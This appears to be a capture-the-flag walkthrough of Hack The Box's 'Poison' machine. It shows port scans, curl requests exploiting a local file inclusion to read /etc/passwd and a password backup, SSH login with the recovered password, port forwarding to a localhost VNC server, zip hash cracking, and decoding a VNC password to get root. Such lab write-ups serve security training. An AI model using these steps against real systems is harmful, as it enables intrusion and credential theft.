









# [Poison](https://app.hackthebox.eu/machines/132)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.84 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.84 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.84
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.84
```

The TCP quick scan returns the following:


Start the following web scanner:

```bash
nikto -h http://10.10.10.84/ -C all --maxtime=120s --output=nikto.txt
```



Browse to the site manually:

```bash
firefox http://10.10.10.84/
```



This looks custom. Looking at the HTML source shows something interesting:



`browse.php` hints at an LFI. Try requesting a common UNIX file since `nikto` says the backend is `Server: Apache/2.4.29 (FreeBSD) PHP/5.6.32` like `/etc/passwd`:


That is definitely an LFI. This output can be cleaned up to the following:

```bash
curl -s -G --data-urlencode 'file=/etc/passwd' http://10.10.10.84/browse.php
```


So there is a unique user `charix` on that target. Maybe this is needed for an SSH bruteforce later? For now, start a directory search for other PHP files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://10.10.10.84/ &
```

The main page lists a few interesting files to look at:

```
ini.php, info.php, listfiles.php, phpinfo.php 
```

`listfiles.php` looks interesting. Try using the LFI to see it:

```bash
curl -s -G --data-urlencode 'file=listfiles.php' http://10.10.10.84/browse.php
```



The file `pwdbackup.txt` is interesting. Try getting that:

```bash
curl -s -G --data-urlencode 'file=pwdbackup.txt' http://10.10.10.84/browse.php
```



This looks juicy. [Decode it from Base64](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)From_Base64('A-Za-z0-9%2B/%3D',true)From_Base64('A-Za-z0-9%2B/%3D',true)From_Base64('A-Za-z0-9%2B/%3D',true)From_Base64('A-Za-z0-9%2B/%3D',true)From_Base64('A-Za-z0-9%2B/%3D',true)From_Base64('A-Za-z0-9%2B/%3D',true)From_Base64('A-Za-z0-9%2B/%3D',true)From_Base64('A-Za-z0-9%2B/%3D',true)From_Base64('A-Za-z0-9%2B/%3D',true)From_Base64('A-Za-z0-9%2B/%3D',true)From_Base64('A-Za-z0-9%2B/%3D',true)From_Base64('A-Za-z0-9%2B/%3D',true)&input=Vm0wd2QyUXlVWGxWV0d4V1YwZDRXRmxVUm5kVlJscHpXa1pPYWxKc1dqQlVWbHBQVjBaS2MySkVUbGhoTWsweFZtcEtTMUl5U2tWVQpiR2hvVFZWd1ZWWnRjRWRaVjAxNVUydFdWUXBpUjJodlZGWldkMVpXV25SalJXUlVUV3hLU1ZadGRHdFhRWEJwVW01Q1VGZFdaREJTCmJWWkhWMjVTYWxKWVVsVlVWbFV4VTFaYWRHUkdaRlphTTBKd1ZteGFkMWRXV25STlZGSnFDazFFUWpSWGExcHJXVlpLUjFOc1ZsVlcKTTA0MFZHdGFhMk50UmtkYVIyaFdWMFZLVlZkWGVHRlRNVlpIV2tab1RsWkdTbFJEYXpGRlVXcFNWMDFxVmxSWlZFWkxZekpPU1ZScwpXbWtLVjBkb05sWkhlR0ZaVms1SVZXdHNWV0pYYUZkV01GWkxWbFprV0dWSFJsUk5iRVkwVmpJMVUyRXhTWGRYYlVaRVlrWndlbFl5CmVHOVhSMFY0WTBoS1dGWnNjRXhWYWtaUFpFWktjd3BhUjJkTFdWUkNXazFHV2toa1IwWmFWbXMxUjFSc1dtdFpWa2w1WVVaa1YwMUcKV2t4V2JGcHJWMGRXU0ZKc1VrNVdia0paVm1wS01HRXhXblJTV0hCV1ltdEtSVmxZY0VkbFZteHlDbFZzVGxkTlJFWjRWbTEwTkZZdwpNWFZVYWs1aFZtMVNTRlZxUmxkamQzQnFVakowVEZaWE1ERlJNa2w0V2toT1lWSkdTbGhVVjNoTFVqRlNjMWR0ZEZwV2EydzFXVlZhClQxWXdNVWNLVjJ0NFYySkdjSEpXTUdSWFUwZFNTR0pGTldsU1dFRXlWbXBLTUZsWFJYaFhibEpUVjBoQ1YxbHRjekZTVm14elZtNWsKV0ZKc2JEVkRiVkpJVDFaa1RsSkZXalJXYlRFd1RrWmtSd3BYYms1cVVsaG9WMWxYZEdGVlJtdzJVbXhrYW1RelFsaFphMlJQVkVaawpXR1JIT1ZKaVZscDZWakkxVTJGc1NsaFZiR1JWVm14d2VsUnJXbHBsVlRWV1QxWndWMkV5ZHpGWFZsWmhDbUV4V1hkTlZXTkxWakowCk5GWXlTa2RqUjJoaFVsWldORlpzV2tka1IxSkdUbGRvVG1KdFRqTldiWEJMVFVkSmVGVllhR2xTYlZKV1dWUktiMVl4YkhKV1ZFWlQKVm0xNGVsWnRlSGNLVkcxS1IyTkVRa1JpVmxwSlZERmFhMkZXV2xsUmEzQllWbXhhZGxwRVJscGtkM0JPVjBWYVZGbHJaRzloUmxaegpXa1pPV0ZKc1duaFZiWE0xWVcxUmVsRnRhRlppVkVaUVZrVmFhd3BYUjFaSFYyMTBUbUpGV1RCV2Frb3dWakZWZVZOcmFGWmlSbkJXClZtcE9VMDB4Y0ZobFJtUllVakZhU0ZkcldsZGhWa3BaVVcxR1YyRXlVWGREYXpWSFUydGthbEpHYkV4V1JsWlRDbU14U2tkalJGcE8KVWtkNFJWZHViM2RQVlU1dVVGUXdTd289) until it looks normal:


That looks like a password. Try it over SSH:

```bash
ssh charix@10.10.10.84 # Charix!2#4%6&8(0
```


From here, looking at running processes shows some interesting ones:

```bash
ps -auxww
```



It seems like `root` is running a local VNC server with the following command:

```bash
Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
```

Checking for listeneing ports also shows this:

```bash
sockstat -4l
```


So the server is only running on `127.0.0.1`. Use port fowarding to connect:

```bash
# password: Charix!2#4%6&8(0
ssh -f -N -L 127.0.0.1:5901:127.0.0.1:5901 charix@10.10.10.84
ssh -f -N -L 127.0.0.1:5801:127.0.0.1:5801 charix@10.10.10.84
```

Now connect from Kali:

```bash
vncviewer 127.0.0.1::5901
```



Seems like a password is needed... Maybe this password is somewhere else on the system? Otherwise, a bruteforce may be needed. Looking inside `/home/charix` shows an interesting file:



What is `secret.zip`? Download and extract it:

```bash
scp charix@10.10.10.84:/home/charix/secret.zip .
unzip secret.zip
```


Seems like the file is password protected. Try extracting the hash and cracking it:

- Hash seems to be either PKZIP (Compressed) or PKZIP (Uncompressed)
  - https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
zip2john secret.zip | cut -d ':' -f 2 > zip.hash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 17200 -a 0 --quiet --potfile-disable zip.hash rockyou.txt
hashcat -m 17210 -a 0 --quiet --potfile-disable zip.hash rockyou.txt
```

But there are no wins here. Try password re-use with `Charix!2#4%6&8(0`? And this does work! The ZIP archive only contains one file with the following binary contents:


Some research on this shows that these 8 bytes may be the encrypted contents of the VNC password:

- https://book.hacktricks.xyz/pentesting/pentesting-vnc
- https://miloserdov.org/?p=4833
- https://medium.com/@int0x33/day-70-hijacking-vnc-enum-brute-access-and-crack-d3d18a4601cc
- https://www.hackingarticles.in/password-crackingvnc/

Try cracking the password:

```bash
wget https://github.com/jeroennijhof/vncpwd.git
cd vncpwd
make 
./vncpwd ../secret
```



Nice! Use this to connect:


And that is `root`. Also, it seems like it was not needed to crack the password at all. The following will work with the `secret` file from `secret.zip`:

```bash
vncviewer -passwd secret 127.0.0.1::5901
```

